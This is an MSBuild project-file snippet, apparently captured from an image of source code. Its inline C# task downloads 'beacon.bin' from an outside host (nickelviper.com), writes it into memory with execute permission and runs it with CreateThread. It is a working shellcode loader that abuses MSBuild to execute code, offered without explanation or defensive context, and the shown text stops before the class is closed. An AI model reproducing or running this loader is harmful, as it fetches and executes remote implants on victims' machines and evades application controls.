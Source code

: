 ```powershell
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Net;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    byte[] shellcode;
                    using (var client = new WebClient())
                    {
                        client.BaseAddress = "http://nickelviper.com";
                        shellcode = client.DownloadData("beacon.bin");
                    }

                    var hKernel = LoadLibrary("kernel32.dll");
                    var hVa = GetProcAddress(hKernel, "VirtualAlloc");
                    var hCt = GetProcAddress(hKernel, "CreateThread");

                    var va = Marshal.GetDelegateForFunctionPointer<AllocateVirtualMemory>(hVa);
                    var ct = Marshal.GetDelegateForFunctionPointer<CreateThread>(hCt);

                    var hMemory = va(IntPtr.Zero, (uint)shellcode.Length, 0x00001000 | 0x00002000, 0x40);
                    Marshal.Copy(shellcode, 0, hMemory, shellcode.Length);

                    var t = ct(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero);
                    WaitForSingleObject(t, 0xFFFFFFFF);

                    return true;
                }

            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)]string lpFileName);

            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

            [DllImport("kernel32")]
            private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr AllocateVirtualMemory(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

```